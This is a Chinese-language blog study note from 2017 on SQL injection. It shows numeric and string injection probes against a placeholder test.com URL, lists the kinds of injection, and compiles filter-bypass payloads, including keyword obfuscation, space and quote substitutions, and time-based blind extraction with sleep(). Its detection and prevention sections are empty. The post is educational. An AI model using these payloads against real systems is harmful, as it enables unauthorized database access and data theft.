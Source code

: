 Title: SQL注入记录
Date: 2017-05-22 13:20
Modified: 2017-05-22 13:20
Category: 安全
Tags: SQLI
Slug: G11
Authors: nJcx
Summary: 记录一下学习SQL注入的心路

#### 原理

没有过滤敏感字符，绑定变量，导致攻击者可以通过sql灵活多变的语法，构造精心巧妙的语句，不择手段，达成目的，或者通过系统报错，返回对自己有用的信息。

#### 数字型注入

http://www.test.com/test.php?id=8

我们通过get 传入 id为8的参数，如果对id 没有过滤，那么id就可能传入任何参数，底层的对应的SQL如下

select * from table where id=8

先加个 '，看看是否正常，

```bash

http://www.test.com/test.php?id=8 and 1=1
select * from table where id=8 and 1=1


http://www.test.com/test.php?id=8 and 1=2
select * from table where id=8 and 1=2

```
看看加上 and 1=2 是否正常，如果出现异常，可能出现SQL注入漏洞

#### 字符型注入
http://www.test.com/test.php?user=njcx

select * from table where user='njcx'

字符型注入跟数字型注入的区别在字符型注入需要闭合,参数变了，"njcx' and 1=1--"

当然，也可以出现双闭合

```bash

http://www.test.com/test.php?user=njcx' and 1=1-- 
select * from table where user='njcx' and 1=1--'

http://www.test.com/test.php?user=njcx' and 1=2-- 
select * from table where user='njcx' and 1=2--'
```
看看加上 and 1=2 是否正常，如果出现异常，可能出现SQL注入漏洞，
#### 注入方式
SQL注入的分类

- 联合查询
- 基于错误回显
- sql盲注（布尔和时间）

SQL注入方式的分类

- get 和 post

- 基于user-agent

- 基于feferer

- 基于cookie

#### 检测


#### 绕过

（下面部分内容来自互联网）

- 对于关键字的绕过
	- 注释符绕过:uni/**/on se/**/lect
	- 大小写绕过:UniOn SeleCt
	- 双关键字绕过:ununionion seselectlect
	- <>绕过:unio<>n sel<>ect(有些网站为了防止xss注入,所以过滤了<>)
	- 对于and,or的绕过其实还可以尝试一下&&,||,异或注入

- 对特殊字符的绕过
	- 对空格的绕过:

			两个空格代替一个,用tab键代替空格
	
			/**/ %20 %09 %0a
	
	
			利用空格绕过:很多关键字都可以写成带括号的形式select(),or()
	
			特殊函数中的空格绕过:ascii(mid(xxfrom(1))) ascii(substr(xxfrom(1)))
	- 对单引号的绕过:
			
			 十六进制绕过(针对需要输入表名的时候 'user'=>0x7573657273)
			 substr(x,1,1),mid(x,1,1)=>substr(x from 1 for 1) mid(x from 1 for 1)

	- 对逗号的绕过：
	
			limit 0,1=> limit 0 offset 1
			
			join(本身是用来连接两个表单的,所以join一定是要放在from后面放表单的位置):
			
			union select 1,2 =>
			
			union select * from (select 1)a join (select 2)b
			
			select case when (条件) then (代码1) else (代码2) end 可以对应上if(条件,代码1,代码2)
			
			if(substring((select user()) from 1 for 1)='e',sleep(5),1)
			
			可以变为
			
			select case when substring((select user()) from 1 for 1)='e' then sleep(5) else 1 end

	- 等号的绕过:

			利用<>(即不等于号)绕过
			
			利用like绕过
			
			利用greatest()绕过(greatest(a,b)返回较大的那个数)
			
			?id=' or 1 like 1
			
			?id=' or 1 <> 1
			
			?id=' union select greatest(substr((select user()),1,1),95)


#### 防范